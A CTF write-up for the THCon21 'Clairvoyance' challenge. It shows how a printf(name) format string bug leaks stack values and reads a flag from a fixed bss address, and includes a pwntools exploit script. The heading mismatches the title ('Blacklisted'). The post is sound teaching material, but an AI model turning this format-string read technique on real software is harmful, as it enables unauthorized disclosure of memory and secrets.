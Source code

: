 ```yaml
---
title: "THCon21 - Clairvoyance"
date: 2021-06-14T16:29:06+02:00
draft: false
tags: [pwn]
# image: "/image/blog-pic.jpg"
description: "A format string pwn challenge from THCon21"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


# THCon21 - Blacklisted

[Go back to write-ups list](../)

> **Category:** Intro
> 
> **Creator:** Voydstack
> 
> **Description:**
> 
> Do you have enough clairvoyance to read the flag inside my mind ?
> 
> **Attachments:**
> - [clairvoyance](/files/thcon21/clairvoyance)

## Analysing the binary

The attachment is an ELF x64 binary. Again, I opened it in IDA and went to the `main` function.

![Clairvoyance main](/image/thcon21/clairvoyance.png "Clairvoyance main")

To put it simply, the program asks you for your name and whether you want to read the flag. If you say "yes" to the latter, it will blow you off (and if you say something else, it'll just say bye as well).

The weakness here is that the program uses `printf(name)` after saying "nice try", which makes it vulnerable to a format string bug in the name you enter.

Now let's look at the read_flag function, since the flag is not used anywhere in `main` but is probably loaded in memory.

![Clairvoyance main](/image/thcon21/read_flag.png)

Bingo! The content of the file `flag.txt` is read into the `flag` variable. However, `flag` is located in the bss section, not on the stack, when printf will read its arguments on the stack.

![flag on bss](/image/thcon21/bss.png)

But that's not really an issue.

## Exploiting the format string bug

![Awesome meme you are missing :cry:](/image/thcon21/funm.png "r/AAAAAAAAAAAAAAAAA")

The address of the flag isn't on the stack, but our user input is. For example, here is what I get when I input `AAAAAAAA%p%p%p%p%p%p%p%p%p%p`:

```
Nice try, but no flag for you, AAAAAAAA0x7ffeb09c38c0(nil)(nil)0x50x1f0x7ffeb09c60780x100401365(nil)0xa7365790x4141414141414141
```
(I'd gladly put spaces between the `%p` but we're limited to 31 characters in total...)

Here, you can see that the beginning of our user input `AAAAAAAA` (or `0x4141414141414141`) shows up at the end, so at the 10th `%p`, which means that if we send `AAAAAAAA%10$s`, printf will try to display the string at the address `0x4141414141414141`.

Now if we replace `AAAAAAAA` by the address of `flag`, it should print the flag, right? Well, almost.

As you can see in the bss screenshot, the address of the flag is `0x0000000000404080`, which means that you'll have to throw in a bunch of null bytes, and fgets will stop reading your input once it sees a null byte.

So the little trick we're going to make is:
- Send `%11$s`
- Send 3 `A` for padding (making the length = 8), so that our address is fully on the 11th slot
- Send our address

*Note: the actual address starts with null bytes as you can see on the screenshot. Fortunately, we have to send it backwards to the program (because of a different endianness), so the non-null bytes go first!*

Now here is a little python script using pwntools that does exactly what we want:

```py
from pwn import *

elf = ELF("clairvoyance")
bss = elf.symbols["flag"]        # Loads the address of the flag
payload = b'%11$sAAA' + p64(bss) # p64 converts it to 8 bytes with the right endian
print(payload)

p = process("./clairvoyance")
p.recv()
p.sendline(payload)
p.recv()
p.sendline(b"yes")
print(p.recv())
```

![Clairvoyance solved](/image/thcon21/clairvoyance_solved.png)

*Note: as you can see on the screenshot, the binary has No PIE, so the address of `flag` in the bss doesn't change. Otherwise, the challenge would've been more complicated.*


[Go back to write-ups list](../)
